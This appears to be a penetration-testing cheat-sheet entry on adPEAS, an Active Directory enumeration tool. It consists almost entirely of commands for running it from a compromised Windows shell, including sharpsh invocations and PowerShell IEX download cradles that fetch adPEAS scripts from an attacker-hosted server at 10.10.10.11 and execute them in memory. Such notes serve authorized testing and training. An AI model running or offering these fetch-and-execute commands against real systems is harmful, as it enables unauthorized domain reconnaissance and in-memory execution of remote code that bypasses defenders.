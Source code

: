 # ADPeas

The light version does not contain bloodhound within, suggested to use that.

    sharpsh -t 200 -- '-u http://10.10.10.11/powershell-scripts/adPEAS.ps1 -c "Invoke-adPEAS"'
    sharpsh -t 200 -- '-u http://10.10.10.11/powershell-scripts/adPEAS-Light.ps1 -c "Invoke-adPEAS"'


### Load when in a shell

    IEX((new-object net.webclient).downloadstring('http://10.10.10.11/powershell-scripts/adPEAS-Light.ps1'))
    IEX((new-object net.webclient).downloadstring('http://10.10.10.11/powershell-scripts/adPEAS.ps1'))


### Run

    Invoke-adPEAS

